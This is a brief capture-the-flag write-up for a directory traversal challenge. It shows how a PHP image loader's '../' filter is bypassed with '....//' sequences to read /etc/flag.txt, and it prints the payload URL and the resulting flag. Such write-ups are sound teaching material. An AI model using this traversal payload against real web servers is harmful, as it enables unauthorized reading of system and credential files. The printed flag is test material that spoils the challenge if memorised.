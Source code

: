 # Directory traversal

Please give me the flag located at /etc/flag.txt

The web application is available [here](https://nm02.bootupctf.net:8082/)

# Writeup

This website has a lot of images which are loaded via a PHP file 

```
https://nm02.bootupctf.net:8082/picture.php?image=1.jpg
```

Guessing this file is used, changing `1.jpg` with `../../../../etc/flag.txt` but did not get anything. Then tried `....//` which seems to work. Guessing they do a string replace for `../` as a protection measurement.

```
https://nm02.bootupctf.net:8082/picture.php?image=....//....//....//....//....//etc/flag.txt
```

There we got a flag!

```
mne{so_much_for_that_filter}
```


